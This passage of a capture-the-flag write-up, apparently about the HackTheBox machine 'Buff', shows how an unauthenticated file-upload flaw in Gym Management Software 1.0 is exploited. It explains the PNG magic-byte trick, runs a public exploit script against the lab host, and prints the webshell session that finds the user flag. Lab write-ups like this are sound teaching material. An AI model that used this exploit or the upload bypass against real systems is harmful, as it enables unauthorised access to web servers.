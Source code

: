 It seems to be a classic website about fitness stuff. On the contact page, I found this 
> <strong><cite> Made using Gym Management Software 1.0 </cite></strong>

I googled it and boom, we have our first [exploit](https://www.exploit-db.com/exploits/48506).

Apparently <cite>Gym Management System</cite> has a vulnerability where a remote attacker can upload a file and gain RCE from it. Here the exploit upload a fake PNG file via the `/upload.php` script on the server. 
It creates the fake image on the fly using the [magic bytes technique](https://medium.com/@d.harish008/what-is-a-magic-byte-and-how-to-exploit-1e286da1c198). If you don't know what it is, there are a lot of resources on internet who explain it. To be short, it uses the first bytes ([\x89\x50\x4e\x47\x0d\x0a\x1a](https://gchq.github.io/CyberChef/#recipe=From_Hex('%5C%5Cx')&input=XHg4OVx4NTBceDRlXHg0N1x4MGRceDBhXHgxYQ)) of a valid image file and then past a malicious code after it.


## Foothold

Anyway, all we need to do is to provide the uri of the website and Voila ! we have a basic shell. 

{% highlight sh %}
python2.7 ./exploit.py http://buff:8080/
{% endhighlight %}

{% highlight sh %}
{% endhighlight %}

{% highlight text %}
            /\
/vvvvvvvvvvvv \--------------------------------------,
\`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.

C:\xampp\htdocs\gym\upload> whoami
buff\shaun

C:\xampp\htdocs\gym\upload> 

{% endhighlight %}

## User

Apparently, we are connected as a user called <strong><cite>shaun</cite></strong>. 

{% highlight text %}
dir \users\shaun\desktop
{% endhighlight %}

{% highlight text %}
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\users\shaun\desktop

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
23/11/2020  06:04                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   9,817,079,808 bytes free

{% endhighlight %}
